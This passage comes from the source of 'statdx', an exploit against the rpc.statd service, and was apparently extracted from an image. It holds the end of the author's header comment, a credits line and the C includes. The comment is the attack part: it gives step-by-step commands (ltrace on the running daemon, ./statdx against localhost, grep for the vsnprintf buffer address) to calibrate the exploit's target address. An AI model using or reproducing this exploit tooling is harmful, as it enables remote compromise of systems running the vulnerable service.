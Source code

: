 ***

*** An easy way to get the buffer address for simulation systems that you

*** have privileged access to:

***

*** [term 1]# ltrace -p `pidof rpc.statd` -o foo

*** [term 2]$ ./statdx -r 0x41414141 localhost

*** [term 1]# grep vsnprintf foo | head -1 | sed 's/.*(//' | \

***              awk -F"," '{print $1}'

***

*** (Of course, ensure that rpc.statd is started at boot time and not from

*** an interactive shell, otherwise it will inherit a larger environment

*** and blow the accuracy of your findings.)

***

*** Ok, longwinded enough. Let's dance.

***

*** greets

*** ------

*** ADM, attrition, rogues, security.is, teso

***

**/

 

#include <stdio.h>

#include <stdlib.h>

#include <string.h>

#include <errno.h>

#include <unistd.h>

#include <netdb.h>

#include <rpc/rpc.h>

#include <sys/types.h>

#include <sys/time.h>

#include <sys/socket.h>

#include <netinet/in.h>

 
